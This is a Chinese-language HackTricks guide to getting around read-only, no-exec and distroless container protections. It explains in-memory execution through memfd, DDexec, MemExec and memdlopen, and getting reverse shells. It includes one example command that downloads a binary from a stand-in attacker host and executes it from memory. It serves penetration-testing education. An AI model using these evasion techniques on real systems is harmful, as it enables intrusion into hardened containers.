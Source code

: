 # 绕过文件系统保护：只读 / 无执行 / Distroless

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果你对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

## 视频

在以下视频中，你可以找到本页面提到的技术的更深入解释：

* [**DEF CON 31 - 探索 Linux 内存操控以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**使用 DDexec-ng 和内存 dlopen() 的隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 只读 / 无执行场景

在 Linux 机器上发现 **只读 (ro) 文件系统保护** 的情况越来越普遍，特别是在容器中。这是因为运行一个只读文件系统的容器就像在 `securitycontext` 中设置 **`readOnlyRootFilesystem: true`** 一样简单：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统被挂载为只读，**`/dev/shm`** 仍然是可写的，因此我们不能写入磁盘的说法是错误的。然而，这个文件夹将被 **挂载为无执行保护**，所以如果你在这里下载一个二进制文件，你 **将无法执行它**。

{% hint style="warning" %}
从红队的角度来看，这使得 **下载和执行** 系统中未存在的二进制文件（如后门或枚举工具如 `kubectl`）变得 **复杂**。
{% endhint %}

## 最简单的绕过：脚本

请注意，我提到的是二进制文件，只要解释器在机器内部，你可以 **执行任何脚本**，例如如果 `sh` 存在则可以执行 **shell 脚本**，或者如果安装了 **python** 则可以执行 **python 脚本**。

然而，这并不足以执行你的二进制后门或其他你可能需要运行的二进制工具。

## 内存绕过

如果你想执行一个二进制文件，但文件系统不允许这样做，最好的方法是 **从内存中执行它**，因为 **保护措施不适用于那里**。

### FD + exec 系统调用绕过

如果你在机器内部有一些强大的脚本引擎，例如 **Python**、**Perl** 或 **Ruby**，你可以将二进制文件下载到内存中执行，将其存储在一个内存文件描述符中（`create_memfd` 系统调用），这个描述符不会受到这些保护的影响，然后调用 **`exec` 系统调用** 指定 **fd 作为要执行的文件**。

为此，你可以轻松使用项目 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。你可以传递一个二进制文件，它将生成一个指定语言的脚本，包含 **压缩和 b64 编码的二进制文件** 以及 **解码和解压缩** 的指令，使用调用 `create_memfd` 系统调用创建的 **fd** 和调用 **exec** 系统调用来运行它。

{% hint style="warning" %}
这在其他脚本语言如 PHP 或 Node 中不起作用，因为它们没有任何 **默认方式从脚本调用原始系统调用**，因此无法调用 `create_memfd` 来创建 **内存 fd** 来存储二进制文件。

此外，使用 `/dev/shm` 中的文件创建 **常规 fd** 也不起作用，因为你将无法运行它，因为 **无执行保护** 将适用。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 是一种技术，允许你通过覆盖 **`/proc/self/mem`** 来 **修改你自己进程的内存**。

因此，**控制正在被进程执行的汇编代码**，你可以编写 **shellcode** 并“变异”该进程以 **执行任何任意代码**。

{% hint style="success" %}
**DDexec / EverythingExec** 将允许你从 **内存** 中加载和 **执行** 你自己的 **shellcode** 或 **任何二进制文件**。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
有关此技术的更多信息，请查看 Github 或：

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) 是 DDexec 的自然下一步。它是一个 **DDexec shellcode demonised**，因此每次您想要 **运行不同的二进制文件** 时，您无需重新启动 DDexec，只需通过 DDexec 技术运行 memexec shellcode，然后 **与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) 找到如何使用 **memexec 从 PHP 反向 shell 执行二进制文件** 的示例。

### Memdlopen

与 DDexec 具有相似目的的 [**memdlopen**](https://github.com/arget13/memdlopen) 技术允许以 **更简单的方式加载二进制文件** 到内存中以便稍后执行。它甚至可以加载带有依赖项的二进制文件。

## Distroless Bypass

### 什么是 distroless

Distroless 容器仅包含 **运行特定应用程序或服务所需的最低组件**，例如库和运行时依赖项，但排除了较大的组件，如包管理器、shell 或系统实用程序。

Distroless 容器的目标是 **通过消除不必要的组件来减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向 Shell

在 distroless 容器中，您可能 **甚至找不到 `sh` 或 `bash`** 来获取常规 shell。您也不会找到 `ls`、`whoami`、`id` 等二进制文件……您通常在系统中运行的所有内容。

{% hint style="warning" %}
因此，您 **将无法** 获取 **反向 shell** 或 **枚举** 系统，如您通常所做的那样。
{% endhint %}

然而，如果被攻陷的容器正在运行例如 flask web，那么 python 已安装，因此您可以获取 **Python 反向 shell**。如果它正在运行 node，您可以获取 Node 反向 shell，几乎任何 **脚本语言** 都是如此。

{% hint style="success" %}
使用脚本语言，您可以 **使用语言功能枚举系统**。
{% endhint %}

如果没有 **`read-only/no-exec`** 保护，您可以利用反向 shell **在文件系统中写入您的二进制文件** 并 **执行** 它们。

{% hint style="success" %}
然而，在这种类型的容器中，这些保护通常会存在，但您可以使用 **先前的内存执行技术来绕过它们**。
{% endhint %}

您可以在 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) 找到 **示例**，了解如何 **利用一些 RCE 漏洞** 获取脚本语言的 **反向 shell** 并从内存中执行二进制文件。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果您对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
